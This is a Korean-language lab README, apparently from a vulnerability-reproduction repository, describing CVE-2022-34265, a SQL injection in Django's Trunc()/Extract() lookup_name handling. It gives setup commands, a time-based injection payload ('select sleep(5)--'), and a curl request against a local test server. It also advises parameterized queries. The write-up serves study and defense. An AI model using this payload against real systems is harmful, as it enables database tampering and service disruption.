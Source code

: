 # CVE-2022-34265

> [장정안\_5308(jeongahn)](https://github.com/jeongahn)

## 요약

Django version이 3.2에서 3.2.14 사이와 4.0에서 4.0.6 사이에 문제가 발견되었다.
CVE-2022-34265은 Django ORM의 데이터베이스 쿼리를 통한 취약점이다. 이 취약점은 사용자로부터의 입력을 쿼리 필터링에 직접 사용할 때 발생한다. 이러한 사용자 입력은 보안을 위협할 수 있는 SQL 삽입 공격을 유발할 수 있다.
즉, 신뢰할 수 없는 데이터가 kind/lookup_name 값으로 사용되면 Trun() 및 Extract() 데이터베이스 함수가 SQL 주입 대상이 된다.

## 환경 구성 및 실행

**MAC m1에서 테스팅 환경 구축했습니다.**

- `git clone https://github.com/jeongahn/kr-vulhub/Django_Sql_Injection/CVE-2022-34265` 실행
- `cd CVE-2022-34265`
- `make up`으로 실행해 테스트 환경을 실행할 수 있다.

#### 삭제 시

- `make down`

## 페이로드

- `YEAR FROM start_time)) ; select sleep(5)--`

```
curl "http://127.0.0.1:8000/extract/?lookup_name=YEAR%20FROM%20start_time))%20%3Bselect%20sleep(5)--"
```

#### Payload:

- `YEAR FROM start_time)) ;select sleep(5)--`
- 이 쿼리는 start_time 필드의 연도를 추출하는 것처럼 보이며, 그 뒤에 ;를 사용하여 새로운 쿼리를 시작한다. 그리고 select sleep(5)를 사용하여 5초간의 딜레이를 발생시킨다.
- 이를 통해 공격자는 서비스의 응답 시간을 지연시켜 서비스의 가용성을 저하시킬 수 있다.

## 결과

![alt text](image.png)
5초 뒤에 응답이 오는 것을 확인

## 정리

이 취약점은 이제 Injection으로 서비스 응답 시간을 지연시킬 수 있고, 데이터베이스의 문서를 조작하는등의 공격이 가능한 취약점이며 사용자 입력을 검증하고 파라미터화된 쿼리를 사용해 패치를 하는 것이 중요하다.

## Reference

- https://github.com/aeyesec/CVE-2022-34265
- https://github.com/ZhaoQi99/CVE-2022-34265?tab=readme-ov-file
